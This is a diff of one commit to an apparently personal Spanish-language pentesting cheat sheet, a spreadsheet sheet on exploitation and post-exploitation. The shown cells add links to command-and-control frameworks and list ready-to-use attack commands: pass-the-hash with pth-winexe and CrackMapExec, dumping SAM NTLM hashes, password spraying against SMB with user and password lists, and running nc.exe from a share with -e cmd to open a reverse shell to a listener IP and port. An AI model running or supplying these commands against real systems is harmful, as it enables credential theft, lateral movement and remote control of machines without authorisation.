

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Explotacion & Post-Explotacion, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no cell formats; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
+++ b/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
-V25: (empty)
+V25: https://github.com/BC-SECURITY/Empire/
-W25: (empty)
+W25: https://www.bc-security.org/post/the-empire-3-0-strikes-back
-X25: (empty)
+X25: Empire 3.0 Covenant (creadores Empire)
-N26: (empty)
+N26: pth-winexe -U dominio/Usuario%Hash:Hashotravez //IP cmd.exe
-O26: (empty)
+O26: Para hacer un Pass the Hash
-P26: (empty)
+P26: Hay que poner 2 veces el Hash
-V26: cme Crack Map Exec
+V26: https://blog.stealthbits.com/next-gen-open-source-c2-frameworks/
-V26:X26 merged
-V27: Comando
+V27: (empty)
-W27: Descripcion
+W27: (empty)
-X27: Anotaciones
+X27: (empty)
-V28: cme smb 10.10.10.10 -u 'usuario' -p 'contraseña' --sam
+V28: CrackMapExec cme
+V28:X28 merged
-W28: Dumpeo de la SAM
+W28: (empty)
-X28: Nos saca los hahses NTLM de la maquina
+X28: (empty)
-V29: cme smb 10.10.10.10 -u 'usuario' -p 'contraseña' -x \\10.10.10.10\smbFolder\nc.exe -e cmd 10.10.10.10 4646
+V29: Comando
-W29: Ejecutar un Netcat en un servidor con un recurso compartido
+W29: Descripcion
-X29: (empty)
+X29: Anotaciones
-V30: cme pth-winexe -U WORKGROUP/Administrators%hash de la contraseña //10.10.10.10 cmd.ex
+V30: cme smb 10.10.10.10 -u 'usuario' -p 'contraseña' --sam
-W30: Hacer y bypass the hash y abrir un cmd
+W30: Dumpeo de la SAM
-X30: (empty)
+X30: Nos saca los hahses NTLM de la maquina
-V31: …10.10.10.10 -u user.txt -p pass.txt
+V31: …10.10.10.10 -u 'usuario' -p 'contraseña' -x \\10.10.10.10\smbFolder\nc.exe -e cmd 10.10.10.10 4646
-W31: Comprobar usuarios contra el smb se puede usar con listas
+W31: Ejecutar un Netcat en un servidor con un recurso compartido
-V32: cme smb 10.10.10.10 -u usuario -p contraseña
+V32: cme pth-winexe -U WORKGROUP/Administrators%hash de la contraseña //10.10.10.10 cmd.ex
-W32: Comprobar usuarios contra el smb
+W32: Hacer y bypass the hash y abrir un cmd
-X32: Ver si tiene permisos para hacer cosas, nos tiene que salir Pwn3d!
+X32: (empty)
-V33: …10.10.10.10 -u usuario -p contraseña --shares
+V33: …10.10.10.10 -u user.txt -p pass.txt
-W33: Nos lista los recursos compartidos
+W33: Comprobar usuarios contra el smb se puede usar con listas
```
Also changed, not shown: 15 added rows, 5 removed rows, 143 edited cells and merged cells elsewhere in this sheet, sheet Enumeracion & Escaneos, sheet General, sheet Reconocimiento & Informacion, sheet Interceptadores & Web, cell formats.
